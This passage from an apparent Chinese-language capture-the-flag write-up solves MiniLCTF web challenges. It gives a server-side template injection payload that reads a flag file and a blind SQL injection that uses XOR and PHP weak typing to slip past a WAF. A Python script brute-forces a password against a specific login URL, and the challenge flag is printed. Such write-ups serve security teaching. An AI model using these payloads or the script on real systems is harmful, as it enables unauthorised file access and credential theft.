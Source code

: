 看到`file`，又有刚才获得的路径，我们可以读取文件了

```
{{''.__class__.__mro__[2].__subclasses__()[40]('./flag/flag.txt','r').read()}}
```

得到flag`MiniLCTF{e215h-c0adj-14sjs-mn74h}`

![](https://ws1.sinaimg.cn/large/006Vib6xly1frghz6fcldj30la02xmxo.jpg)

### baby sqli2

```
小明刚写的WAF就被打脸，于是不服气的小明升级了新的waf，大黑客们还能绕过吗
```

发现注释符，逻辑连接词都被过滤了

猜测后台判断语句为`$username == 'admin'`，如果是这样的话，我们就利用弱类型来绕过

比如`0 == 'admin'`就会返回1，绕过验证，而`1 == 'admin'`返回空

发现`^`异或符没有被过滤

这样就有办法了，我们可以通过异或来构造这个`0`

测试一下

```
php > echo 'admin'^1^1;
0
php > echo 'admin'^1;
1
```

但是我们还要闭合后面的`'`

```
php > echo 'admin'^1^'1';
0
php > echo 'admin'^0^'1';
1
```

成功

利用`sql1`给的查询语句知道字段名是`passwd`

payload

```php
username=admin'^(ascii(mid((passwd)from(1)))>=32)^'1&passwd=123
```

当`ascii(mid((passwd)from(1)))>=10`为真时，返回1，所以username的值就是0，返回`passwd is wrong`，当`ascii(mid((passwd)from(1)))>=10`为假时，返回0，username的值这是就是1，返回`wafed by pupiles`

利用这点我们就可以盲注了

脚本如下

```python
import requests
url = 'http://45.40.207.251:8002/login.php'
s = requests.Session()
passwd = ''
for l in range(1,33):
    for c in range(32,133):
        username = "admin'^(ascii(mid((passwd)from(%d)))>=%d)^'1'='1" % (l,c)
        data = {'username':username, 'passwd':123}
        html = s.post(url,data=data).text
        if 'admin' in html:
            passwd += chr(c - 1)
            print passwd
```